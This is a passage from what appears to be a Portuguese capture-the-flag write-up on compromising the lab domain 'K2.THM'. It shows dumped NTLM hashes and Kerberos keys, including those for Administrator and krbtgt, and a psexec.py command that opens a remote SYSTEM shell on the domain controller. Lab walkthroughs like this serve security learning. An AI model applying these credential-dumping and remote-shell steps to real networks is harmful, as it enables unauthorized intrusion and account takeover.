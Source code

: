 ```
RBCDPC$:1116:aad3b435b51404eeaad3b435b51404ee:ab4f5a5c42df5a0ee337d12ce77332f5:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:8044ea734b80475d2998673ded8036645d83ec115abc14f1990bb8e6c38f3d67
Administrator:aes128-cts-hmac-sha1-96:524c729d15c411121eb773246cdcaff5
Administrator:des-cbc-md5:80d56ebff2c26dd0
krbtgt:aes256-cts-hmac-sha1-96:10e96d99d70a03db0d17a30bda313478b4873d29e3e767474142453ab2228713
krbtgt:aes128-cts-hmac-sha1-96:2999ff505aeed39ecdb5a370bc4719fc
krbtgt:des-cbc-md5:c2764ff131daec0d
j.smith:aes256-cts-hmac-sha1-96:ac9fdf934fd59400501a4774d56183eead48e1a975e75ba26f44b0c9fa4c1661
j.smith:aes128-cts-hmac-sha1-96:8e0fa34388c02a18d25a7567043cb0d7
j.smith:des-cbc-md5:ad40dc972a1c200d
o.armstrong:aes256-cts-hmac-sha1-96:3daff62c48e70a8a149ecd65ffed7e1246caafc948dbcf3713ceb29a0086252e
o.armstrong:aes128-cts-hmac-sha1-96:8ea4d2e742ed8755597548060ad845a4
o.armstrong:des-cbc-md5:64ae4ce3df9e855b
K2ROOTDC$:aes256-cts-hmac-sha1-96:7bcff1b79b5bbfdd0ea64d45e5d15f577217b696bab236bd400c597b1754aba4
K2ROOTDC$:aes128-cts-hmac-sha1-96:22bbecb45342a603ca22c5db9780ab50
K2ROOTDC$:des-cbc-md5:ab34a8d59d102a7c
RBCDPC$:aes256-cts-hmac-sha1-96:46e159b397f7a5ddf93db1ef1cc35c8827b414603d94d32c72fb8492828b1a84
RBCDPC$:aes128-cts-hmac-sha1-96:97b0955bec62f147c3ea37de4bf8a014
RBCDPC$:des-cbc-md5:0d04d54f45ab1357
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
[-] SCMR SessionError: code: 0x41b - ERROR_DEPENDENT_SERVICES_RUNNING - A stop control has been sent to a service that other running services are dependent on.
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```



> [!HASH do Administrator encontrada]
> Administrator:500:aad3b435b51404eeaad3b435b51404ee:15ecc755a43d2e7c8001215609d94b90:::


#### 6.2.5.2 Alternativo: Uso do `psexec` para obtenção de shell remota

Comando: `psexec.py -k -no-pass K2.THM/Administrator@K2ROOTDC.K2.THM`

- O `psexec.py` permite obter uma **shell interativa remota** via SMB/RPC, geralmente com privilégios SYSTEM.

- Ideal quando você quer **interagir com o sistema**, como:
    - Executar comandos
    - Mover/copiar arquivos
    - Enumerar diretórios

- Ele utiliza a interface `svcctl` (Service Control Manager) para:
    - Criar um serviço temporário
    - Executar o comando desejado no contexto do serviço

# 7. Acima do `Administrator`, mas ninguém
